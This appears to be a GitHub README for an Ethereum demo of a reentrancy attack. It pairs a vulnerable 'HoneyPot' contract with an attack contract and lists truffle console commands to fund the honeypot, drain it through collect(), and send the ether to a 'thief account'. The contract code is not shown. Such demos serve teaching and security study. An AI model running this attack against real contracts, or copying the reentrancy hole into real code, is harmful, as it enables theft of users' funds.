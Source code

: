 # honeyPotReentranceAttack
Example of vulnerable contract and an attack contract that would drain all money from vulnerable contract.

## Set up
`truffle compile`

`truffle migrate`

`truffle console`

## truffle console commands
Get Honey pot contract address

`HoneyPot.deployed().then(instance => honeyPotAddress = instance.address)`

Check its balance:

`web3.eth.getBalance(honeyPotAddress).toString(10)`

Send money to honey pot address from accounts[1]:

`HoneyPot.deployed().then(instance => instance.put({from: web3.eth.accounts[1], value: web3.toWei(5, "ether") }))`

Check again honeypot contract balance:

`web3.eth.getBalance(honeyPotAddress).toString(10)`

Get Attack contract address:

`HoneyPotCollect.deployed().then(instance => evilContractAddress = instance.address)`

Check its balance:

`web3.eth.getBalance(evilContractAddress).toString(10)`

Attack HoneyPot contract with evil contract:

`HoneyPotCollect.deployed().then(inst => inst.collect({ value: web3.toWei(5, "ether"), gas: 1000000 }))`

Transfer ether to the thief account:

`HoneyPotCollect.deployed().then(inst => inst.kill())`
